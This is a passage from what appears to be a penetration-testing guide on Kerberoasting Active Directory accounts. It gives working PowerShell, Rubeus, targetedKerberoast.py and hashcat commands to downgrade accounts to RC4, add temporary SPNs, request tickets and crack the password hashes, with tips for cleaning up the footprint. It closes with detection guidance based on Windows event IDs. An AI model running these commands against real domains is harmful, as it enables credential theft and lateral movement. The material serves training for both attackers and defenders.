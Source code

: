 ```powershell
# Allow only RC4 (value 4) — very noisy/risky from a blue-team perspective
Set-ADUser -Identity <username> -Replace @{msDS-SupportedEncryptionTypes=4}
# Mixed RC4+AES (value 28)
Set-ADUser -Identity <username> -Replace @{msDS-SupportedEncryptionTypes=28}
```

#### Targeted Kerberoast via GenericWrite/GenericAll over a user (temporary SPN)

When BloodHound shows that you have control over a user object (e.g., GenericWrite/GenericAll), you can reliably “targeted-roast” that specific user even if they do not currently have any SPNs:

- Add a temporary SPN to the controlled user to make it roastable.
- Request a TGS-REP encrypted with RC4 (etype 23) for that SPN to favor cracking.
- Crack the `$krb5tgs$23$...` hash with hashcat.
- Clean up the SPN to reduce footprint.

Windows (PowerView/Rubeus):

```powershell
# Add temporary SPN on the target user
Set-DomainObject -Identity <targetUser> -Set @{serviceprincipalname='fake/TempSvc-<rand>'} -Verbose

# Request RC4 TGS for that user (single target)
.\Rubeus.exe kerberoast /user:<targetUser> /nowrap /rc4

# Remove SPN afterwards
Set-DomainObject -Identity <targetUser> -Clear serviceprincipalname -Verbose
```

Linux one-liner (targetedKerberoast.py automates add SPN -> request TGS (etype 23) -> remove SPN):

```bash
targetedKerberoast.py -d '<DOMAIN>' -u <WRITER_SAM> -p '<WRITER_PASS>'
```

Crack the output with hashcat autodetect (mode 13100 for `$krb5tgs$23$`):

```bash
hashcat <outfile>.hash /path/to/rockyou.txt
```

Detection notes: adding/removing SPNs produces directory changes (Event ID 5136/4738 on the target user) and the TGS request generates Event ID 4769. Consider throttling and prompt cleanup.

You can find useful tools for kerberoast attacks here: https://github.com/nidem/kerberoast

If you find this error from Linux: `Kerberos SessionError: KRB_AP_ERR_SKEW (Clock skew too great)` it’s due to local time skew. Sync to the DC:

- `ntpdate <DC_IP>` (deprecated on some distros)
- `rdate -n <DC_IP>`

### Detection

Kerberoasting can be stealthy. Hunt for Event ID 4769 from DCs and apply filters to reduce noise:

- Exclude service name `krbtgt` and service names ending with `$` (computer accounts).
- Exclude requests from machine accounts (`*$$@*`).
- Only successful requests (Failure Code `0x0`).
- Track encryption types: RC4 (`0x17`), AES128 (`0x11`), AES256 (`0x12`). Don’t alert only on `0x17`.
